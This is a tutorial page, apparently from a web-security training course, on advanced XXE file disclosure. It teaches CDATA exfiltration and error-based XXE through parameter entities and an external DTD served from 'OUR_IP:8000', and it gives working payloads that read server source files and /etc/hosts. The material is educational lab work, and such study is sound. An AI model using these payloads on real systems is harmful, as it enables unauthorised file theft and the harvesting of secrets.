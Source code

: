 # Advanced File Disclosure

Not all XXE vulnerabilities may be straightforward to exploit, as we have seen in the previous section. Some file formats may not be readable through basic XXE, while in other cases, the web application may not output any input values in some instances, so we may try to force it through errors.

***

## Advanced Exfiltration with CDATA

In the previous section, we saw how we could use PHP filters to encode PHP source files, such that they would not break the XML format when referenced, which (as we saw) prevented us from reading these files. But what about other types of Web Applications? We can utilize another method to extract any kind of data (including binary data) for any web application backend. To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

One easy way to tackle this issue would be to define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

After that, if we reference the `&joined;` entity, it should contain our escaped data. However, `this will not work, since XML prevents joining internal and external entities`, so we will have to find a better way to do so.

To bypass this limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined, as follows:

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application, as follows:

```shell-session
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, we can reference our external entity (`xxe.dtd`) and then print the `&joined;` entity we defined above, which should contain the content of the `submitDetails.php` file, as follows:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

Once we write our `xxe.dtd` file, host it on our machine, and then add the above lines to our HTTP request to the vulnerable web application, we can finally get the content of the `submitDetails.php` file:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As we can see, we were able to obtain the file's source code without needing to encode it to base64, which saves a lot of time when going through various files to look for secrets and passwords.

{% hint style="info" %}
**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.
{% endhint %}

This trick can become very handy when the basic XXE method does not work or when dealing with other web development frameworks. `Try to use this trick to read other files`.

***

## Error Based XXE

Another situation we may find ourselves in is one where the web application might not write any output, so we cannot control any of the XML input entities to write its content. In such cases, we would be `blind` to the XML output and so would not be able to retrieve the file content using our usual methods.

If the web application displays runtime errors (e.g., PHP errors) and does not have proper exception handling for the XML input, then we can use this flaw to read the output of the XXE exploit. If the web application neither writes XML output nor displays any errors, we would face a completely blind situation, which we will discuss in the next section.

Let's consider the exercise we have in `/error` at the end of this section, in which none of the XML input entities is displayed on the screen. Because of this, we have no entity that we can control to write the file output. First, let's try to send malformed XML data, and see if the web application displays any errors. To do so, we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity, as follows:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that we did indeed cause the web application to display an error, and it also revealed the web server directory, which we can use to read the source code of other files. Now, we can exploit this flaw to exfiltrate file content. To do so, we will use a similar technique to what we used earlier. First, we will host a DTD file that contains the following payload:

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

The above payload defines the `file` parameter entity and then joins it with an entity that does not exist. In our previous exercise, we were joining three strings. In this case, `%nonExistingEntity;` does not exist, so the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error. There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file.

Now, we can call our external DTD script, and then reference the `error` entity, as follows:

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

Once we host our DTD script as we did earlier and send the above payload as our XML data (no need to include any other XML data), we will get the content of the `/etc/hosts` file as follows:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

This method may also be used to read the source code of files. All we have to do is change the file name in our DTD script to point to the file we want to read (e.g. `"file:///var/www/html/submitDetails.php"`). However, `this method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it.
